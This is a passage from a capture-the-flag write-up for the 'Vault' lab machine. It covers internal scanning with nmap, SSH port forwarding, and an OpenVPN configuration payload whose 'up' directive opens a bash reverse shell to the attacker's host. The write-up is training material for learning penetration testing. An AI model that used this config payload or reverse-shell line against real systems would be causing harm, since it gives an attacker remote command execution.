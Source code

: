 We can also see a connection between this machine and the `DNS + Configurator` machine on `192.168.122.4:80`. A web server perhaps? Let's do a little more digging before checking that out. I'll transfer a standalone binary of `nmap` to the target machine and do some scans.

```sh
dave@ubuntu:~$ ./nmap -T4 192.168.122.4

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-02-24 16:59 PST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 192.168.122.4
Host is up (0.0037s latency).
Not shown: 1203 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Since `curl` isn't installed, did a quick `wget` on the main page of `http://192.168.122.4/`.

```sh
dave@ubuntu:~$ cat index.html
<h1> Welcome to the Sparklays DNS Server </h1>
<p>
<a href="dns-config.php">Click here to modify your DNS Settings</a><br>
<a href="vpnconfig.php">Click here to test your VPN Configuration</a>
```

### Web Server on 192.168.122.4

Let's use a local port forward via SSH to see if we can access that web server.

```sh
┌──(pl4stic㉿kali)-[~/htb/vault]
└─$ ssh -L 4545:192.168.122.4:80 dave@10.129.121.48
```

![vault7](/images/vault7.png)

The link to modify DNS settings is broken, but the VPN configuration link works.

![vault8](/images/vault8.png)

So we can change the contents of the `.ovpn` file... but how to get a reverse shell? A very quick Google search led me to this very informative [article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da). Here's the general payload we need to deliver:

```Text
remote 192.168.122.1     // IP of host we can reach
dev tun                  // interface name to use
nobind                   // because it says we have to
script-security 2 
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/5555 0>&1'"
```
